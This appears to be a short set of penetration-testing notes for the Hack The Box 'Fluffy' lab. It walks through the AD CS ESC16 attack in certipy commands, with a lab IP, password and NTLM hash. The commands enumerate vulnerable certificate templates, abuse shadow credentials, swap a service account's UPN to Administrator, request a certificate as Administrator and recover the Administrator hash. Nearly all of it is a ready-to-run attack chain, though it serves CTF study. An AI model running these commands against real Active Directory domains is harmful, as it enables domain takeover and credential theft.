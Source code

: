 
```bash
certipy find -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -stdout -vulnerable
```

![[Pasted image 20251005180905.png]]
[Documentation](https://www.hackingarticles.in/adcs-esc16-security-extension-disabled-on-ca-globally/)

> Requires an account with `GenericWrite` access to another account that can publish certificates
> 
> Review [Fluffy Machine](https://htb.adot8.com/hack-the-box/windows-boxes/fluffy)

Read low level account attributes
```bash
certipy account -u "p.agila" -p 'prometheusx-303' -dc-ip 10.10.11.69 -user ca_svc read
```

Change users UPN (UserPrinicipalName) to Administrator
```bash
certipy account -u "p.agila" -p 'prometheusx-303' -dc-ip 10.10.11.69 -user ca_svc -upn Administrator update
```

> If the error `CONSTRAINT_ATT_TYPE` appears try using the FQDN `Administrator@domain.local`

Setup shadow credentials for the user + get TGT
```bash
certipy shadow -u "p.agila" -p 'prometheusx-303' -dc-ip 10.10.11.69 -account ca_svc auto
```

Request a certificate as Administrator

```bash
export KRB5CCNAME=$(pwd)/ca_svc.ccache

certipy-ad req -k -dc-ip 10.10.11.69 -ca 'fluffy-DC01-CA' -template 'User' -upn Administrator@fluffy.htb 

OR

certipy-ad req -u ca_svc -hashes :ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.10.11.69 -ca 'fluffy-DC01-CA' -template 'User' -upn Administrator@fluffy.htb  
```

Put UPN for controlled user back to normal

```bash
certipy account  -u "p.agila" -p 'prometheusx-303' -dc-ip 10.10.11.69 -user ca_svc -upn ca_svc update
```

Get Administrator hash
```bash
certipy auth -dc-ip 10.10.11.69 -pfx administrator.pfx -username Administrator -domain fluffy.htb
```